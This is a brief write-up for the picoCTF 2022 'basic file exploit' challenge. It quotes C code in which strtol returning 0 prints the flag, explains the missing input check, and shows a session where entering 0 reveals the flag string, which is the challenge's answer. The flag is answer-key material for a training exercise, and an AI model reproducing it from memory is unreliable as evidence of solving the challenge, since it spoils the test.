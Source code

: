 # basic file exploit
## Binary exploitation challenge from picoCTF2022

### Solution
Reading the source code, we can see that the *data_read()* function handles the user's input when trying to read data. The following looks interesting
```c
if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

```
Here we see the use of the stlib function _strtol_. This function takes the initial part of a given string and converts it to a **long int** value according to a given base. In our case, we can see it's taking our entry number, passing **NULL** as the end pointer and tries to convert the number to base 10 (regular decimal). If this entry number is 0, it will output the _flag_ variable. 
Therefore, we should try inputting **0** as a value to see what happens

```
Please put in a valid number
1
1
Please enter your data:
test-data
test-data
Please enter the length of your data:
10
10
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_00AAD6B3}

```
And the challenge is solved.